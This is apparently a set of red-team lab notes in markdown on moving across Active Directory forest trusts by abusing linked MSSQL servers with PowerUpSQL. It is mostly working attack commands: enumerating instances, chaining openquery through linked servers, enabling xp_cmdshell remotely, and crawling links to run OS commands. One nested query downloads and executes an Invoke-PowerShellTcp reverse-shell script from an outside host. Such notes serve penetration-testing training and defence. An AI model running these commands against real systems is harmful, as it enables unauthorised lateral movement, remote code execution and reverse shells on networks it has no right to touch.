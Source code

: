 # Cross Forest Attacks - MSSQL Servers

- [Cross Forest Attacks - MSSQL Servers](#cross-forest-attacks---mssql-servers)
  - [MSSQL Servers](#mssql-servers)
  - [Enumeration](#enumeration)
  - [Database links](#database-links)
  - [Searching Database Links](#searching-database-links)
  - [Executing Commands](#executing-commands)
  - [Abusing Database Links](#abusing-database-links)

---

## MSSQL Servers

MS SQL servers are generally deployed in plenty in a Windows domain. MSSQL Servers provide very good options for lateral movement as they **allow mapping domain users to database roles** and thus become part of AD trusts.

Let's see one scenario where we can abuse SQL servers trust and database links to move across forest trust boundaries. For MSSQL and PowerShell hackery, lets use **PowerUpSQL**:

- https://github.com/NetSPI/PowerUpSQL

```
. C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.ps1
```

<br/>

---

## Enumeration

<br/>

To discover MSSQL instances:

```
Get-SQLInstanceDomain
```

<br/>

To check accessibility:

```
Get-SQLConnectionTestThreaded
```

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

<br/>

Gather information about the MSSQL instances:

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

<br/>

---

## Database links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. 

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.

Database links work even across forest trusts.

<br/>

---

## Searching Database Links

Look for links to remote servers:

```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

Note we can also enuemrate linked servers manually:

```
select * from master..sysservers
```

<br/>

`Openquery` function can be used to run queries on a linked database:

```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

`Openquery` queries can be chained to access links within links (nested links)

```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

<br/>

---

## Executing Commands

On the target server, either `xp_cmdshell` should be already enabled; or if `rpcout` is enabled (**disabled by default**), `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "db-sqlsrv"
```

<br/>

From the initial SQL server, OS commands can be executed using nested link queries:

```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version; exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.64/Invoke-PowerShellTcp.ps1'''')"'')')
```

<br/>

---

## Abusing Database Links

Crawling links to remote servers:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```

<br/>

Abusing links to remote servers (tries to use `xp_cmdshell` on every link of the chain):

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami'''
```

You can also use `-QueryTarget` to execute commands only on certain server:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -QueryTarget DB-SQLSRV -Query 'exec master..xp_cmdshell ''whoami''' 
```

---